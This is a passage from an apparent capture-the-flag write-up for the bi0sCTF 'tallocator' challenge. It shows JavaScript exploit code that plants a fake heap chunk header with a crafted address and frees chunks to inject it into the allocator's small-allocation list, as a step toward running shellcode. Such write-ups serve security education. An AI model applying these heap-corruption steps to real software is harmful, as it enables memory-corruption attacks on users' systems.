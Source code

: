 ### Writing Shellcode

Since, all pieces are in place, let's examine the final exploit step by step now.

```
var arr = new Uint8Array(0x28);
for (var i = 0; i < 0x28; i++) {
  arr[i] = 0;
}
arr[0x18] = 1;
arr[0x19] = 1;
arr[0x20] = 9;
arr[0x22] = 0x41;
arr[0x23] = 0x41;

var ret = bi0sctf.secure_talloc(key, 0x28, arr);
bi0sctf.secure_talloc(key, 0x10, arr);
```
![1.png](/images/2024-03-03-bi0sctf-tallocator/1.png)

first I allocated a chunk of size 0x28 (size header 0x30) and a chunk of size 0x10 (size header 0x20), the latter prevents coalesence of the former with wilderness on free. Also, the 0x28 byte chunk contains a faux chunk header followed by address 0x41410009 at offset 0x18. The result should look as above.

```
bi0sctf.secure_tree(key, ret + 0x20);
bi0sctf.secure_tree(key, ret);
```
Assume that `sbrk_ed = 0x6900000000` then we get the following situation where our faux chunk is successfully injected into the small allocation list after the first `secure_tree`
